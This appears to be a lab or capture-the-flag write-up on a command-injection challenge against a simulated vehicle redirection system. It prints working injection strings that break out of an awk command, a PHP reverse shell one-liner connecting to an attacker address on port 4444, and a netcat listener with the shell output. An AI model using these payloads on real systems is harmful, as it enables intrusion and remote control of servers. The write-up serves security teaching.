 
### 🌐 Command Injection 0x03 [Challenge]: Vehicle Redirection Exploit

---

## ❓ Overview of the Lab

This lab involves a simulated vehicle redirection system where the user inputs a vehicle registration plate along with new X and Y coordinates for the vehicle's destination.  
The lab demonstrates how unsanitized input can lead to command injection.

---

## 🛠️ Exploitation Technique

### **User Inputs**
- **Registration Plate:** `ASH`
- **Position X:** `100`
- **Position Y:** Initially `200`, then manipulated for command injection.

---

### **Initial Output**
```
Executed: awk 'BEGIN {print sqrt(((100-100)^2) + ((200-300)^2))}'
Result: 100
```

---

### **Command Injection to Obtain User Identity**
- **Manipulated Position Y Input:**  
  ```
  300)^2))}'; whoami;#
  ```
- **Resulting Execution:**
  ```
  Executed: awk 'BEGIN {print sqrt(((-100)^2) + ((-300)^2))}'; whoami;#)^2))}'
  Result: 316.228 www-data
  ```

---

### **Establishing PHP Reverse Shell**
- **Final Position Y Input for Reverse Shell:**
  ```bash
  300)^2))}'; php -r '$sock=fsockopen("192.168.164.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#
  ```
- **Listening on Attacker's Machine:**
  ```bash
  nc -nlvp 4444
  ```
- **Terminal Output Upon Connection:**
  ```
  listening on [any] 4444 ...
  connect to [192.168.164.128] from (UNKNOWN) [172.18.0.3] 56418
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ hostname
  b92fab868123
  ```

---

## 📡 Understanding the Payload

- **Payload Mechanism:**  
  - The manipulated input terminates the original `awk` command and injects new commands.  
  - The `;` separates commands, and `#` comments out the rest of the original command, preventing errors or further execution.

---

## ❓ Why PHP and Not Python?

- To determine the appropriate payload language, check for the available interpreters:  
  ```bash
  300)^2))}'; which php;#
  ```
- **Result:**
  ```
  Result: 316.228 /usr/local/bin/php 
  ```
- A similar check for Python (`which python`) returns empty, confirming PHP as the suitable payload choice.

---

## 🎯 Lab Conclusion

This lab effectively demonstrates command injection by manipulating input fields in a simulated system control.  
It highlights the critical need for input validation and sanitization to prevent such vulnerabilities.

---
